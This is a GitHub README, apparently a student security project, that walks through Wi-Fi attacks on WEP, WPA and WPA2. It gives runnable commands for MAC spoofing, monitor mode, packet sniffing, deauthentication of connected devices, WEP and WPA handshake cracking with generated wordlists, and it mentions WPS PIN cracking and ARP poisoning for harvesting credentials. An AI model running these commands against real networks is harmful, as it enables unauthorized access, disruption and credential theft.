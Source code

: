 # Projet-WiFi

Pre-connection attacks, gaining access & post-connection attacks on WEP, WPA & WPA2. 🛰✔️

* ### Prerequisites
0. Linux + wireless adapter.

1. Change the MAC address of your wireless adapter, either for hiding a computer on a network or for allowing it to impersonate another network device.

```
ifconfig wireless_adapter_name down
ifconfig wireless_adapter_name hw ether 00:19:35:89:88:14
ifconfig wireless_adapter_name up
```

2. Change your wireless interface to "Monitor" mode. By default, the mode of wireless devices is set to "Managed", that means our wireless device will only capture packets that have our device's MAC address as the destination MAC.

```
ifconfig wireless_adapter_name down
airmon-ng check kill (kill all interference processes)
iwconfig wireless_adapter_name mode monitor
ifconfig wireless_adapter_name up
iwconfig
```

* ### Pre-connection attacks
1. Discover the networks around you:
```
airodump-ng wireless_adapter_name
```
![Discover networks around you](https://user-images.githubusercontent.com/64968597/134020395-c7a67e4b-d7d0-4a84-a155-8a67fdf449c9.JPG)

2. Sniff the packets from a specified network:
```
airodump-ng --bssid target_MAC --channel N (--write file_name) wireless_adapter_name
```

3. Deauthentication attack (disconnect any device from the network):

This attack will always work ! The only way around it is to change the MAC address of the target machine.
```
aireplay-ng --deauth time_out -a router_addr -c target_mac_addr wireless_adapter_name
```

* ### Gaining access

1. WEP cracking (100% successful):
   
   Each packet is encrypted using a unique key stream.
   <br/> A random initialization vector (IV) is used to generate the keys stream. This initialization vector is only 24 bits long.
   <br/> The IV is too small and sent in plain text, so in busy networks, IV's will repeat, making it vulnerable to statistical attacks. Therefore, the key stream can be determined and the encryption broken.

   To crack WEP, we need a large number of packets/IVs to analyse the IVs and crack the router's key.

   Step 1:
   <br/> Capture a large number of packets
   ```
   airodump-ng --bssid MAC --channel N --write file_name wireless_adapter_name
   ```
   
   Step 2:
   <br/> Run aircrack-ng to crack the password
   ```
   aircrack-ng .cap_file_captured_previously
   ```
   Gets cracked instantly !
   
2. WPA/WPA2 cracking:
   
   The goal is to capture the handshake (4 packets) between the router and a device.
   
   Step 1: 
           <br/> Run a deauthentication attack against a device connected to the router and wait for him to connect back to it OR wait for a new client to connect.
           <br/> Catch the handshake using "airodump-ng".
           <br/> The handshake doesn't contain data that helps recover the key, but it contains data that can be used to check if a key is valid or not !
           <br/> Useful information in the handshake - MIC (Message Integrity Code): SP address, STA address, AP nonce, STA nonce, EAPOL, Payload
   
   Step 2: 
           <br/> Create a wordlist/dictionnary: "crunch" command
           <br/> Example: "crunch 6 8 abc123 -o wordlist.txt" --> creates a wordlist of length 6 to 8 with characters abc123 in a file called wordlist.txt
           <br/> Argument "-d 1@" is specified for non-repeating letters.
           <br/> Combining the useful information to the wordlist will create new MICs, which will be compared to the real MIC
           <br/> if(new_MIC == MIC), then the word generating this MIC is the router's password !
           
   ```
   aircrack-ng file_.cap_containing_handshake -w word_list
   ```
            
https://user-images.githubusercontent.com/64968597/134026257-af761b17-4b0b-4c87-95aa-b7999ee1a2b3.mp4

![password_crack](https://user-images.githubusercontent.com/64968597/134026466-bfc08a47-8d84-4f6f-98af-816a25209824.JPG)


   Another method: 
            <br/> Exploit the WPS feature (except if PBC is enabled: Push Button Authentication)
            <br/> The WPS feature allows clients to connect without a password.
            <br/> Authentication is done using a 8 digit pin, which can be cracked under a minute.

* ### Post-connection attacks

![https_bypass_blur](https://user-images.githubusercontent.com/64968597/134031635-1eb1f336-2dc0-4400-8f64-566ddcf44f2f.png)

1. ARP poisoning using bettercap, arpspoof, etc.:
   <br/> The captured packets are then easily analysed (using Wireshark) to gather passwords, emails, usernames, etc.
